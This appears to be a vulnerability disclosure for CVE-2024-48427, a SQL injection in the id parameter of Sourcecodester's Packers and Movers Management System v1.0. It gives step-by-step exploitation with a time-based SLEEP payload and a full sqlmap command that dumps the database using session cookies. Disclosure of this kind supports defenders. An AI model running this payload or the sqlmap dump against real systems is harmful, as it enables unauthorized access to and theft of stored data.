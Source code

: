 # CVE-2024-48427

### Description
A SQL injection vulnerability in Sourcecodester Packers and Movers Management System v1.0 allows remote authenticated users to execute arbitrary SQL commands via the id parameter in /mpms/admin/?page=services/manage_service&id

### Vulnerability Type
SQL Injection

### Vendor of Product
Sourcecodester

### Affected Product Code Base: 
https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html - 1.0

### Affected Component: 
The id parameter of Update Service Details at /mpms/admin/?page=services/manage_service&id

### Attack Vectors:
1) Setup the application locally and login to the admin panel using the given default credentials.
2) Navigate to the Vulnerable Page: http://localhost/mpms/admin/?page=services/manage_service&id=2
3) Inject SQL Payload to the id parameter: http://localhost/mpms/admin/?page=services/manage_service&id=1' OR SLEEP(5)-- puNr
4) Observe the Application Response: The page should take noticeably longer (5 seconds) to load if the injection is successful, confirming that the id parameter is vulnerable to SQL injection.
5) Now run SQLMap Tool For Dumping Database Details:
6) sqlmap -u "http://localhost/mpms/admin/?page=services/manage_service&id=1" --cookie="phpMyAdmin=ju34bd3d8q0jdf6td4ntqscaqd;PHPSESSID=eopn8q1p8c1f5m1v5igjoir8k1;" --dbms mysql -p id --risk 3 --level 4 --dbs --dump


### Reference: 
1) https://owasp.org/www-community/attacks/SQL_Injection
2) https://portswigger.net/web-security/sql-injection

